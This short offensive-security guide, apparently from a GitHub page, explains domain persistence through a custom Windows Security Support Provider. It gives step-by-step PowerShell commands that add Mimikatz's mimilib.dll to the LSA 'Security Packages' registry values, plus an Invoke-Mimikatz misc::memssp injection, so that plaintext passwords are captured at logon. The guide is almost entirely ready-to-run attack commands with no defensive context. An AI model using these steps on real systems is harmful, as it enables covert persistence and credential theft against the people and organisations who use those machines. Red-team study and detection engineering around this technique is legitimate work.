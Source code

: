 ### **DOMAIN PERSISTENCE VIA CUSTOM SSP**

Custom Security Support Providers (SSPs) can be used to capture plaintext passwords from users that log on. This guide provides steps to set up a custom SSP using a DLL, such as `mimilib.dll` from Mimikatz.

### **STEPS TO SET UP A CUSTOM SSP**

1.  Get Current Security Packages:    
    `$packages = Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages' | select -ExpandProperty 'Security Packages'`
    
2.  Append the Custom DLL (e.g., mimilib): `$packages += "mimilib"`
    
3.  Update the OSConfig registry key with the new packages    
    `Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig" -Name 'Security Packages' -Value $packages`
    
4.  Update the Lsa registry key with the new packages    
    `Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name 'Security Packages' -Value $packages`
    
5.  Alternative Method Using Mimikatz to inject mimilib    
    `Invoke-Mimikatz -Command '"misc::memssp"'`